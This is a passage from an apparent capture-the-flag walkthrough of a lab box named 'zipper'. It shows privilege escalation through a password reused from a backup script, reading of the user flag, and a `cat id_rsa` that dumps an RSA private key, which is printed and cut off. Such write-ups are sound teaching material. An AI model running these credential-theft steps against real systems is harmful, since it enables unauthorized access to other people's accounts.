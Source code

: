 
That script is running every 30 minutes. But I can’t write to the script as
zabbix, and I can’t write to the `/home/zapper/utils/` directory to try to
take advantage of the wildcard:

    
    
    zabbix@zipper:/home/zapper/utils$ ls -l
    total 12
    -rwxr-xr-x 1 zapper zapper  288 Oct 30 20:29 backup.sh
    -rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
    
    zabbix@zipper:/home/zapper/utils$ ls -ld 
    drwxrwxr-x 2 zapper zapper 4096 Sep  8 13:27 .
    

But, it turns out the password in the script, “ZippityDoDah”, is zapper’s
password, so I can just `su`:

    
    
    zabbix@zipper:/home/zapper/utils$ su - zapper
    Password: 
    
                  Welcome to:
    ███████╗██╗██████╗ ██████╗ ███████╗██████╗ 
    ╚══███╔╝██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
      ███╔╝ ██║██████╔╝██████╔╝█████╗  ██████╔╝
     ███╔╝  ██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
    ███████╗██║██║     ██║     ███████╗██║  ██║
    ╚══════╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
    
    [0] Packages Need To Be Updated
    [>] Backups:
    4.0K    /backups/zapper_backup-2018-10-30.7z
    4.0K    /backups/zabbix_scripts_backup-2018-10-30.7z
    
    
    zapper@zipper:~$ id
    uid=1000(zapper) gid=1000(zapper) groups=1000(zapper),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
    

From there, can grab user.txt:

    
    
    zapper@zipper:~$ cat user.txt 
    aa29e93f...
    

I can also can grab ssh keys as a save point:

    
    
    zapper@zipper:~/.ssh$ cat id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEAzU9krR2wCgTrEOJY+dqbPKlfgTDDlAeJo65Qfn+39Ep0zLpR
    l3C9cWG9WwbBlBInQM9beD3HlwLvhm9kL5s55PIt/fZnyHjYYkmpVKBnAUnPYh67
    GtTbPQUmU3Lukt5KV3nf18iZvQe0v/YKRA6Fx8+Gcs/dgYBmnV13DV8uSTqDA3T+
    eBy7hzXoxW1sInXFgKizCEXbe83vPIUa12o0F5aZnfqM53MEMcQxliTiG2F5Gx9M
    2dgERDs5ogKGBv4PkgMYDPzXRoHnktSaGVsdhYNSxjNbqE/PZFOYBq7wYIlv/QPi
    eBTz7Qh0NNR1JCAvM9MuqGURGJJzwdaO4IJJWQIDAQABAoIBAQDIu7MnPzt60Ewz
    +docj4vvx3nFCjRuauA71JaG18C3bIS+FfzoICZY0MMeWICzkPwn9ZTs/xpBn3Eo
    84f0s8PrAI3PHDdkXiLSFksknp+XNt84g+tT1IF2K67JMDnqBsSQumwMwejuVLZ4
    aMqot7o9Hb3KS0m68BtkCJn5zPGoTXizTuhA8Mm35TovXC+djYwgDsCPD9fHsajh
    UKmIIhpmmCbHHKmMtSy+P9jk1RYbpJTBIi34GyLruXHhl8EehJuBpATZH34KBIKa
    8QBB1nGO+J4lJKeZuW3vOI7+nK3RqRrdo+jCZ6B3mF9a037jacHxHZasaK3eYmgP
    rTkd2quxAoGBAOat8gnWc8RPVHsrx5uO1bgVukwA4UOgRXAyDnzOrDCkcZ96aReV
    UIq7XkWbjgt7VjJIIbaPeS6wmRRj2lSMBwf1DqZIHDyFlDbrGqZkcRv76/q15Tt0
    oTn4x8SRZ8wdTeSeNRE3c5aFgz+r6cklNwKzMNuiUzcOoR8NSVOJPqJzAoGBAOPY
    ks9+AJAjUTUCUF5KF4UTwl9NhBzGCHAiegagc5iAgqcCM7oZAfKBS3oD9lAwnRX+
    zH84g+XuCVxJCJaE7iLeJLJ4vg6P43Wv+WJEnuGylvzquPzoAflYyl3rx0qwCSNe
    8MyoGxzgSRrTFtYodXtXY5FTY3UrnRXLr+Q3TZYDAoGBALU/NO5/3mP/RMymYGac